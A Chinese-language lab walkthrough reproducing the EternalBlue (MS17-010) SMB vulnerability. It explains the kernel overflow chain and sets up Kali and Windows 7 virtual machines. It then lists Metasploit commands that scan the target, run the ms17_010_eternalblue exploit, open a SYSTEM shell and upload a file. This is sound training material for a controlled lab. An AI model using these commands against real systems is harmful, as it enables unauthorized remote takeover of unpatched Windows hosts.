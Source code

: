 # 永恒之蓝（MS17-010）漏洞复现

## 漏洞概述

- **漏洞编号**：MS17-010
- **漏洞名称**：永恒之蓝(EternalBlue)
- **影响范围**: Microsoft Windows 7/2008 及之前未打补丁的版本
- **漏洞类型**: 远程代码执行
- **危险等级**: 严重

## 漏洞成因

**SMB协议**：全称Server Mwssage Block，是一种网络文件共享协议，让计算机可以访问网络上的文件和打印机。

**内核态**：操作系统核心运行的空间，拥有最高权限。SMB服务的工作部分（srv.sys）驱动运行在**内核态**，也就意味着漏洞执行的代码在内核态运行，可以获得最高权限。

**漏洞成因**：Windows内核中的srv.sys驱动未能正确验证客户端发送的特定事务请求（SMB_COM_TRANSACTION）中声称的数据长度与实际接收的数据长度是否一致，导致缓冲区溢出。
攻击链如下：

- **触发溢出**：攻击者发送一个畸形的SMB数据包，其中谎报了后续数据的长度。srv.sys驱动因缺失验证，根据这个虚假的长度分配了内核缓冲区，从而造成缓冲区溢出。

- **篡改指针**：溢出的数据精准地覆盖了一个内核中的数据包接收函数指针，将其值修改为指向一个固定的系统内部共享内存区域（KI_USER_SHARED_DATA，地址为0xFFDF0000）。

- **写入Shellcode**：内核随后处理下一个正常的数据包时，会误以为这是之前那个畸形请求的后续数据。由于指针已被篡改，内核会将这些数据（其中包含攻击者的Shellcode）直接写入到那个固定的系统共享内存区域，而非原本的安全缓冲区。

- **劫持执行流**：该系统共享内存区域中包含一个重要的系统调用返回地址。攻击者写入的Shellcode会覆盖这个地址。

- **获取权限**：当相关的系统调用完成时，CPU会去读取被覆盖的返回地址，转而执行攻击者预设的Shellcode。由于这一切发生在内核态，Shellcode得以以最高的SYSTEM权限运行，从而为攻击者打开一个系统Shell。
> **一句话概括**： Windows SMBv1 服务器处理特殊的请求时，存在内核态的内存拷贝错误，导致攻击者可以发送的恶意数据包，实现远程代码执行，获取系统最高权限。


## 实验环境搭建

### 虚拟机软件准备
本教程使用 **VMware Workstation** 作为虚拟机软件。
- **下载安装**：请自行搜索下载并安装VMware Workstation 17 Player（免费版）或Pro版。
- **替代方案**：也可使用 VirtualBox（免费开源）。

### 操作系统镜像准备
需要下载两个系统的镜像文件（ISO文件）：
- **攻击机**：Kali Linux 
- **靶机**：Windows 7 SP1 x64 

### 创建虚拟机
**安装Kali**：
    - 在VMware中新建虚拟机，选择“稍后安装操作系统”，客户机操作系统选择“Linux”，版本选择“Debian 10.x 64位”。
    - 分配至少2核CPU、4GB内存、40GB硬盘空间。
    - 加载下载好的Kali Linux镜像，启动虚拟机完成安装。
**安装Win7**：
    - 新建虚拟机，客户机操作系统选择“Windows”，版本选择“Windows 7 x64”。
    - 分配至少2核CPU、2GB内存、40GB硬盘空间。
    - 加载Win7镜像完成安装。**安装完成后，务必关闭系统自动更新和防火墙！**

### 网络配置
将两台虚拟机的网络适配器都设置为 **NAT模式**，确保它们在同一网段且与物理机隔离。

| 角色         | 系统版本         | IP 地址       | 备注                        |
| ------------ | ---------------- | ------------- |---------------------------|
| 攻击机 (Kali) | Kali Linux 2024.1 | 192.168.142.128 | 使用 Metasploit 框架，具备nmap工具 |
| 靶机 (Target) | Windows 7 SP1 x64 | 192.168.142.133 | 原版，未打补丁                   |

### 实验准备

- **网络检查**：确保攻击机与靶机位于同一局域网段（通常使用VMware/NAT模式），并能相互通信。
![img_6.png](img_6.png)

- **靶机设置**：关闭Windows 7靶机的防火墙和自动更新功能，使其处于易受攻击的原始状态。
![img_5.png](img_5.png)![img_4.png](img_4.png)

- **环境验证**：
分别查看攻击机与靶机IP，并互相执行ping命令测试连通性。

![img.png](img.png)![img_1.png](img_1.png)
![img_3.png](img_3.png)![img_2.png](img_2.png)

- **端口扫描**：使用Nmap扫描靶机，探测开放端口，确认445端口（SMB服务）是否开放
![img_7.png](img_7.png)

## 攻击流程
在kali攻击机上启动渗透测试框架
'msfconsole'
![img_8.png](img_8.png)
> msfconsole是启动Metasploit框架的核心命令。Metasploit是一个强大的渗透测试平台，里面集成了大量的漏洞利用模块、 payload和辅助工具。msfconsole 就是打开这个工具箱的命令行界面。


搜索永恒之蓝漏洞模块
'search ms17-010'
![img_12.png](img_12.png)
> 红线标出的是五个功能模块，分别是：
> 
> 漏洞利用模块 (exploit/windows/smb/ms17_010_eternalblue)：主攻击向量。直接利用EternalBlue漏洞进行远程代码执行，获取系统初始访问权限。
>
> 权限扩展模块 (exploit/windows/smb/ms17_010_psexec)：备用攻击方案。在已获取有效账号密码的前提下，通过SMB认证模拟管理员身份执行代码。
> 
> 后门利用模块 (auxiliary/admin/smb/ms17_010_command)：后门命令执行器。在目标已被植入特定后门（如DOUBLEPULSAR）后，直接通过该通道执行单条命令。
> 
> 漏洞扫描模块 (auxiliary/scanner/smb/smb_ms17_010)：安全扫描器。用于无损检测目标主机是否存在MS17-010漏洞，为后续攻击提供依据。
> 
> 后门管理模块 (exploit/windows/smb/smb_doublepulsar_rce)：后门植入与利用工具。可向已存在漏洞的系统植入DOUBLEPULSAR后门，或利用现存的后门执行代码。
> 
> 这里我们主要会用到第一个漏洞攻击模块和第四个扫描模块


选择漏洞扫描，收集信息，验证漏洞
'use auxiliary/scanner/smb/smb_ms17_010'
'set rhosts 192.168.142.133'
'run'
![img_10.png](img_10.png)
> use auxiliary/scanner/smb/smb_ms17_010：选择漏洞扫描模块。该模块属于辅助(auxiliary)类别中的扫描器(scanner)，其作用是检测目标SMB服务是否存在MS17-010漏洞，仅作验证，不执行攻击。
> set rhosts 192.168.142.133：设置目标参数。rhosts (Remote Hosts) 参数用于指定要扫描的远程靶机IP地址。
> run：执行扫描。启动当前模块，开始对目标进行漏洞验证。
> 结果显示vulnerable，可以开始下一步攻击

切换到攻击模块，设置靶机IP开始攻击
'use exploit/windows/smb/ms17_010_eternalblue'
'set rhosts 192.168.142.133'
'run'
![img_11.png](img_11.png)
win!

接下来获取靶机cmd
'shell'
查看详细网络信息与权限级别，靶机系统信息等
![img_13.png](img_13.png)
![img_17.png](img_17.png)
![img_18.png](img_18.png)

退出shell界面，上传我们提前准备好的文件并验证
'upload /home/kali/Desktop/test c:\\'
'cat c:\\test'
![img_14.png](img_14.png)

打开靶机查看

![img_15.png](img_15.png)
![img_16.png](img_16.png)

成功！

